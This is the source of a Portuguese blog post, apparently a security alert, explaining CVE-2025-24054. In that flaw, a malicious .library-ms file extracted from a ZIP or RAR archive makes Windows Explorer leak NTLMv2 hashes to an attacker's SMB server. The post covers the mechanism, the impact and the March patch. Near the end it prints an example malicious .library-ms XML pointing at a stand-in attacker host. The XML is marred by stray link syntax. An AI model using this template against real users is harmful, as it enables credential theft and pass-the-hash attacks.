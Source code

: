 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00 # << AJUSTE ESTA DATA E HORA PARA A PUBLICAÇÃO
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot" # Seu nome de autor
images: ["images/posts/library-ms1.png"]
draft: false

tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).



Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

* **Tentar ataques de "Pass-the-Hash":** Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
* **Tentar Quebra de Senha Offline:** O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:
* **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso
- 1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

    - **O que é SMB (Server Message Block)**? De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede. Quando você acessa uma pasta compartilhada como `\\NOMEDOSERVIDOR\pasta`, você está usando SMB.
- 2. Exemplo de Conteúdo Malicioso no `.library-ms`:
O arquivo `library-ms` pode conter algo como:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="[http://schemas.microsoft.com/windows/2009/library](http://schemas.microsoft.com/windows/2009/library)">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///[servidor-do-atacante.com/recurso_malicioso](https://servidor-do-atacante.com/recurso_malicioso)</url>
                {{/* Outra variação poderia ser: <url>\\servidor-do-atacante.com\recurso_malicioso</url> */}}
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
---

